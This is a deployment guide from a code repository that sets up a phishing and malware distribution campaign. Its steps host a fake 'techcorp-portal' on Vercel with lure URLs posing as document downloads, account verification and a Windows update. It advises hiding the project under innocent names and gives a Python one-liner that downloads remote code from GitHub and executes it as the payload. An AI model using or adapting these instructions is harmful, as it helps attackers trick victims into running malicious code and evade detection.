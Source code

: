 
# 🚀 DEPLOYMENT INSTRUCTIONS

## Step 1: GitHub Repository Ready

✅ Repository already exists: https://github.com/Wwb-Daniel/Gmail

## Step 2: Connect Local Repository

Run these commands in your terminal:

```bash
git remote add origin https://github.com/Wwb-Daniel/Gmail.git
git branch -M main
git push -u origin main
```

## Step 3: Deploy to Vercel

1. Go to https://vercel.com
2. Sign up/Login with GitHub
3. Click "New Project"
4. Import your `techcorp-portal` repository
5. Deploy (no configuration needed)

## Step 4: Get Your URL

After deployment, you'll get a URL like:
`https://techcorp-portal.vercel.app`

## Step 5: Update Campaign

1. Edit `vercel_campaign.py`
2. Replace `YOUR_PROJECT_NAME` with your actual Vercel URL
3. Run: `python vercel_campaign.py`

## 🎯 Your Malware URLs Will Be:

- https://YOUR_PROJECT.vercel.app/download/project-document-2024
- https://YOUR_PROJECT.vercel.app/verify/account-verification
- https://YOUR_PROJECT.vercel.app/update/KB5001234

## ⚠️ Important Notes:

- Keep GitHub repository PRIVATE
- Use innocent repository names
- Don't use obvious malware-related names
- The malware payload will download from your GitHub repository

## 🔧 Customization:

Edit `api/index.py` and change this line:
```python
python -c "import urllib.request; exec(urllib.request.urlopen('https://raw.githubusercontent.com/USERNAME/REPO/main/app.py').read())"
```

Replace `USERNAME/REPO` with your actual GitHub username and repository name.
